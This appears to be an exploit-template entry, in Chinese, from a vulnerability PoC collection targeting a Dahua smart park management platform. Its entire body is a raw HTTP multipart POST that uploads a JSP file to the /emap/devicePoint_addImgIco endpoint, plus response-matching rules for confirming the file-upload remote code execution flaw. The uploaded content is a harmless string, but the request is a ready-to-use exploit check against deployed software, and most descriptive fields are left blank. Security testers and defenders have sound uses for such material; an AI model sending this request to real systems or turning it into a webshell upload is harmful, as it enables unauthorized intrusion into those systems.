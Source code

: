 ﻿# 华智慧园区文件上传RCE

> 更新时间：2023-12-04

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：

> 验证脚本：HTTP

```
POST /emap/devicePoint_addImgIco?hasSubsystem=true HTTP/1.1
Content-Type: multipart/form-data; boundary=A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT

--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT
Content-Disposition: form-data; name="upload"; filename="dude.jsp"
Content-Type: application/octet-stream
Content-Transfer-Encoding: binary

dude
--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT--
```

> 响应代码特征：200

> 响应内容特征：^(?=.*?code)(?=.*?data).*?$

> 上传文件定位：

> 验证文件来源：华智慧园区文件上传RCE.poc

